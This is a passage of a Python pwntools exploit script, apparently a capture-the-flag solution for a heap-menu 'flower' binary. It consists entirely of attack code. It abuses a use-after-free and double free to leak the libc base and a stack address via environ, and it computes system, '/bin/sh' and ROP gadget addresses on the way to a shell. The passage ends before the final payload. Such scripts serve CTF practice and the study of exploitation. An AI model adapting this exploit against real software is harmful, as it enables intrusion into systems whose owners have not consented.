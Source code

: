 ```python
    io.sendlineafter(': ','4')

#leaklibc
raisef(0x80,'a','a')#0
raisef(0x60,'b','b')#1
raisef(0x60,'c','c')#2
raisef(0x60,'d','d')#3
raisef(0x60,'e','e')#4
removeg(0)
raisef(0x50,'11111112','4')#5
visit()
io.recvuntil('11112')
libcbase = u64(io.recv(6).ljust(8,'\x00')) - 0x3c4b0a
success('libcbase : '+ hex(libcbase))
poprdiret = 0x0000000000021102+libcbase
sysaddr = libcbase + libc.symbols['system']
binshaddr = libcbase + libc.search('/bin/sh').next()
environ = libcbase + libc.symbols['environ']
success('environ : '+hex(environ))
#debug()
raisef(0x28,'6','6')
raisef(0x28,'7','7')
raisef(0x28,'8','8')
raisef(0x28,'9','9')
raisef(0x28,'10','10')
raisef(0x28,'11','11')
raisef(0x28,'12','12')
raisef(0x28,'13','13')
raisef(0x28,'14','14')


#uaf leak stack
removeg(6)
removeg(7)
removeg(8)
removeg(6)

raisef(0x28,'15','15') #15
raisef(0x28,p64(1)+p64(environ),'16')

visit()
io.recvuntil('flower[15] :')
leakstack = u64(io.recv(6).ljust(8,'\x00'))
fakechunk = leakstack - 0x18b#+8
canaryaddr = leakstack-0x110
pad = 0x5b
success('leakstack : '+hex(leakstack))
success('canaryaddr : '+hex(canaryaddr))
success('fakechunk : '+hex(fakechunk))
success('fakechunkinputaddr : '+hex(fakechunk+0x10))
#removeg(16)
#debug()
removeg(13)
removeg(14)


#uaf leak canary , actually useless
removeg(10)
removeg(11)
removeg(12)
removeg(10)

raisef(0x28,'17','17') #17
```